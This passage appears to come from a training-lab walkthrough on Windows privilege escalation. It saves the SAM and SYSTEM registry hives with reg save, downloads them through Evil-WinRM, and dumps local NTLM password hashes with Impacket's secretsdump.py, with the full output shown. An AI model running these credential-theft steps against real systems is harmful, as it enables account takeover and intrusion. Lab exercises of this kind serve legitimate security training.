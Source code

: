 ```shell-session
BUILTIN\Remote Management Users      Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                 Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288
```

We then proceed to make a backup of SAM and SYSTEM files and download them to our attacker machine:


```shell-session
*Evil-WinRM* PS C:\> reg save hklm\system system.bak
    The operation completed successfully.

*Evil-WinRM* PS C:\> reg save hklm\sam sam.bak
    The operation completed successfully.

*Evil-WinRM* PS C:\> download system.bak
    Info: Download successful!

*Evil-WinRM* PS C:\> download sam.bak
    Info: Download successful!
```

**Note:** If Evil-WinRM takes too long to download the files, feel free to use any other transfer method.

With those files, we can dump the password hashes for all users using `secretsdump.py` or other similar tools:


```shell-session
user@AttackBox$ python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL

Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x41325422ca00e6552bb6508215d8b426
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:1cea1d7e8899f69e89088c4cb4bbdaa3:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:9657e898170eb98b25861ef9cafe5bd6:::
thmuser1:1011:aad3b435b51404eeaad3b435b51404ee:e41fd391af74400faa4ff75868c93cce:::
[*] Cleaning up...
```
